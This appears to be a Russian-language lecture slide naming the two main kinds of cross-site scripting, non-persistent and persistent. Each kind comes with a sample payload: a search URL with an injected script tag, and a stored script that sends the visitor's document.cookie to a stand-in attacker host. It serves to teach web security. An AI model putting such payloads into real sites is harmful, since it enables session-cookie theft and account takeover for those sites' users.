

# Виды

Непостоянные (самые популярные)
http://example.com/search.php?q=<script>DoSomethingBad();</script>

Постоянные (наиболее разрушительные)
<script>
document.location=“http://attackerhost.example/cgi-bin/cookiesteal.cgi?"+document.cookie
</script>